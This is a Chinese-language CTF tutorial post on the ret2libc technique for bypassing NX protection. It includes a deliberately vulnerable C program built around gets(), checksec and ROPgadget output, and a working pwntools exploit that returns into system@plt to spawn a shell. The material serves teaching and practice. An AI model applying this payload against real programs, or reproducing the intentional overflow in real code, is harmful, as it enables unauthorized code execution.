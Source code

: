 ```yaml
---
title: ret2libc攻击技术示例-模拟执行system函数绕过NX保护
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


## 什么是ret2libc？

ret2libc即return to libc，返回到系统函数库执行的攻击方法。

当程序开启`NX`保护时，我们的shellcode无法在缓冲区中执行，但是又没有直接的可以使用的system("/bin/sh")代码片段。这时，我们就可以通过使用libc中的system函数，并模拟system函数的执行过程，将"/bin/sh"参数传入system函数并执行，从而获取shell

## ret2libc示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char *shell = "/bin/sh";
char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("shell!?");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("RET2LIBC >_<\n");
    gets(buf1);

    return 0;
}
```

本节示例的漏洞程序可以从此处下载： [ret2libc1](http://od7mpc53s.bkt.clouddn.com/ret2libc1)

使用peda自带的checksec功能检查程序开启的保护机制，这里程序只开启了`NX`保护
``` bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
## 漏洞分析

在调用函数比如这里我们想要执行`call system`这条指令，那么cpu在调用函数的过程中会完成哪些工作呢？

1. 首先程序会将system()函数的各个参数，从右至左依次压入栈中
2. 将`call system`这条指令的地址压入栈中。（当函数执行完毕，会执行`ret`指令将该地址弹出给EIP，这样就能在执行完`call system`后继续往下执行）
3. 将system()函数的地址赋给EIP，也就是跳转到system函数开始执行

那么对应的栈空间其实如下图所示

![callsystem-stack-layout](http://od7mpc53s.bkt.clouddn.com/ret2libc-system-stack-layout.png)

其中`padding1`是我们定位buf首地址和返回地址之间的偏移，我们用字符填充，随后的`padding2`其实是`system("/bin/sh")`执行完的返回地址，因为我们只需要得到shell，而不用管当shell停止后会如何运行，因此这里的4字节我们可以随意填充。当然如果你要写的漂亮些，也可以将其修改为`exit()`的地址

那么我们就开始收集信息，这里的`padding1`长度我们计算后依旧是112，关于`system()`和`/bin/sh`我们也可以通过如下命令得到

``` bash
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
➜  ret2libc1 objdump -dj .plt ret2libc1 | grep 'system'
08048460 <system@plt>:
```
值得注意的是，这里是`system@plt`，跟我们所知的system函数还是有所区别的，这相关于linux的延迟绑定，我们暂不作深究。

## 攻击代码

``` python
from pwn import *

bin_sh = 0x08048720
plt_system = 0x08048460

payload = 'A' * 112
payload += p32(plt_system)
payload += p32(0xdeadbeef)
payload += p32(bin_sh)

io = process('ret2libc1')
io.sendline(payload)
io.interactive()
```
